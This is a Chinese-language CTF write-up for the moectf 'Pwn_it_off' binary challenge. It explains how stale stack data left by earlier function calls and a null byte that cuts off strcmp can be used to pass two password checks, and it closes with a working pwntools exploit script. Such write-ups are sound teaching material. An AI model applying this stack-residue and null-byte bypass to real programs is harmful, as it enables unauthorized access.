

# moectf Pwn_it_off

by Maple

***你真的理解栈了吗***

先介绍两个知识点

- 函数局部变量在函数返回时不会被清空，而是留在调用栈上原位置；函数调用时程序也不会主动清空先前同调用层级的函数残留的局部变量。
- `strcmp` 比对字符串，C 语言用 `'\x00'` 标志字符串末尾，同时 `strcmp` 字符串比对也会到此终止，从而绕过检查。

ida里查看各个函数，可以发现在`down`函数的功能是输出`flag`内容，但是在主函数中这个函数在`voice_pwd`和`num_pwd`之后，所以我们要想办法把这两个函数成功过掉

因为刚开始执行的那3个函数都没有参数调用，并且都是`main`函数的调用，所以这三个函数的栈底应该是一样的，也就是说之前函数执行留下的数据会被留在下一个函数的对应位置，如图



觉得这张图应该很清楚了，不会的话来捶我

接下来是小细节，写在exp里了

exp:

```python
from pwn import *
#p = process('./pwn')
p = remote('127.0.0.1',64393)
last_line = bytes()
while 1:
    line = p.recv()	# 持续接受数据
    if b'[Error]' in line:	# 遇到[Error]时停止接受
        break
    last_line = line	# 记录最后一行的数据

password = last_line[28:28+15]	# 字节序列的28开始往后顺15个截留下来
p.send(password+b'\x00'+p64(12345)[0:7])	# 在第16位截断，后面不比较了就，接着塞进去一个5位数切成7字节，留给v1[1]
p.sendline(b'12345')	# 输入v1[0]就好
p.interactive()
```

